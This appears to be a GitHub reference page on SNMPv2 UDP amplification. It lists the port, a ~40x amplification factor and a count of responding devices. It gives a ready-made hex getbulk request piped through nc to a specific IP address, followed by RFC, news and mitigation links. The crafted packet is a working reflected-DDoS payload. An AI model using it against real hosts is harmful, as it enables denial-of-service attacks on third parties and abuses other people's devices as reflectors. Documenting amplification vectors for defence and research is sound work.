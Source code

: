 # SNMPv2

## Port: 161

## Proto: UDP

## Amplification factor: 40x

## Current responding devices: ~295,000 with over 2,000 bytes.

---

### Refined "public" getbulk query

- **34 byte request responding with an average of 2300 bytes**, leading to an amplification factor of ~40x.

### Example request/response

- > ~# echo -ne '\x30\x24\x02\x01\x01\x04\x06\x70\x75\x62\x6c\x69\x63\xa5\x17\x02\x04\x7b\x73\xcc\x13\x02\x01\x00\x02\x01\x64\x30\x09\x30\x07\x06\x03\x2b\x06\x01\x05\x00' |nc -u 31.133.49.250 161
      	<pre>2561 bytes</pre>

### Documentation

- https://tools.ietf.org/html/rfc3412
- https://kb.iweb.com/hc/en-us/articles/230268048-Guide-to-Public-SNMP-Amplification-Issues
- https://www.darkreading.com/attacks-breaches/snmp-ddos-attacks-spike/d/d-id/1269149

### Mitigations

- https://www.bitag.org/documents/SNMP-Reflected-Amplification-DDoS-Attack-Mitigation.pdf
